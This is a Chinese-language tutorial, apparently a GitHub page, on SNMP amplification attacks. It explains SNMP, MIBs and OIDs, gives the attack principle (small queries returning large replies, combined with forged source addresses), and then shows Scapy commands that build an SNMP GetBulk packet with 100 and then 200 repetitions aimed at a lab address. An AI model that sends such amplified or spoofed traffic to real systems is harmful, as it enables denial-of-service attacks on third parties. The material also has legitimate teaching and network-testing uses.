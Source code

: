 
# SNMP 放大攻击

* 简介
* 安装 SNMP
* scapy 构造数据包

## 简介
* 简单网络管理协议
1. Simmple Network Management Protocol
1. 一般用来监控和管理网络设备
1. 服务端口UDP 161/162
1. 管理站(manager/客户端)、被管理设备(agent/服务端)
1. 管理信息数据库(MIB) 是一个信息存储库，包含管理代理中的有关配置和性能的数据，按照不同分类，包含分属不同组的多个数据对象
1. 每一个节点都有一个对象标识符(OID) 来唯一的标识一IETF定义便准的MIB库厂家自定义MIB库

* 攻击原理
1. 请求流量小，查询结果返回流量大
2. 结合伪造源地址实现攻击

## 安装 SNMP
* 安装 SNMP，定义 community
  

## scapy 构造数据包

* 构造 IP 数据包
``` 
>>> i=IP()
>>> i.dst="10.10.10.142"
>>> i.display()

```  

* 构造 UDP 数据包
``` 
>>> u=UDP()
>>> u.dport=161
>>> u.sport=161

```  

* 构造 SNMP 数据包
``` 
>>> s=SNMP()

```  

* 设置放大倍数
``` 
>>> b=SNMPbulk()
>>> b.max_repetitions=100
>>> b.varbindlist=[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))]
>>> b.display()

```  

* 设置 SNMP 数据包
``` 
>>> r=(i/u/s)
>>> r.display()

```  

* 测试放大200倍效果
``` 
>>> b.max_repetitions=200
>>> s.PDU=b
>>> s.display()

```  
``` 
>>> r=(i/u/s)
>>> r.display()
>>> sr1(r)

```


